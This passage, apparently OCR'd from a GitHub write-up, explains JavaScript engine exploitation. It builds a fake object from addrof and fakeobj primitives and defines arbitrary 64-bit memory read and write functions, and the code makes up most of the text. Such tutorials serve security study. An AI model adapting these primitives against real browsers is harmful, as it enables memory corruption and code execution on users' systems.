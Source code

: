 
```
 +-----------------------------------------------+
 | Container Object                              |
 |                                               |
 | 0x00: container's header                      |
 | 0x08: container's butterfly                   |
 | 0x10: property header -> hax's header         | <--- Where hax will
 | 0x18: property butterfly -> hax's butterfly   |      need to point.
 +-----------------------------------------------+
```

The property `header` will be the header of our fake object `hax` and will contain `js_cell_header`. The property `butterfly` will be the butterfly of our fake object `hax` and will point to `victim`.

```javascript
var container = {
    header: js_cell_header.asJSValue(),
    butterfly: victim
};
```

We then get the address of container, using `addrof`.

```javascript
var container_addr = addrof(container);
```

We can now create our fake array `hax` and make it point to the `header` property of `container` located at `addrof(container)+0x10`.

```javascript
var hax = fakeobj(Add(container_addr, 0x10));
```
From this fake object, it is now possible to construct read and write primitives. Below are annoted functions implementing these primitives.

```javascript
var memory = {
    /*
     * writeInt64 writes a quad-word at an arbitrary location.
     * This functions changes the butterfly of the object victim to addr+0x10
     * and then writes the value int64 to the property pointer, which results
     * in int64 being written to addr.
     */
    writeInt64(addr, int64) {
        hax[1] = Add(addr, 0x10).asDouble();
        victim.pointer = int64.asJSValue();
    },

    /*
     * readInt64 reads a quad-word from an arbitrary location.
     * This functions changes the butterfly of the object victim to addr+0x10
     * and then reads the address of the property pointer, which is actually
     * the quad-word stored at the address addr.
     * This primitive is limited though, it only works for bit patterns that
     * don't represent NaN values.
     */
    readInt64(addr) {
        hax[1] = Add(addr, 0x10).asDouble();
        return addrof(victim.pointer);
    },
};
```

